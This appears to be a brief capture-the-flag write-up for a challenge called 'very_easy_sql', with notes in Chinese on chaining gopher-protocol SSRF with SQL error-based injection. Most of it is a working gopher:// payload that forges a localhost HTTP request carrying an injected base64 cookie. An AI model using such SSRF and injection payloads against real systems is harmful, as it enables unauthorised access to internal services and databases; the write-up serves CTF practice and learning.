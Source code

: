 # very_easy_sql
gopher协议+sql报错注入
构造本地访问:use.php/url=127.0.0.1/use.php

url=gopher://127.0.0.1:80/_GET%2520/index.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AConnection%253A%2520close%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250ACookie%253Athis_is_your_cookie%253DYWRtaW4nICM%253D%250D%250A%250D%250A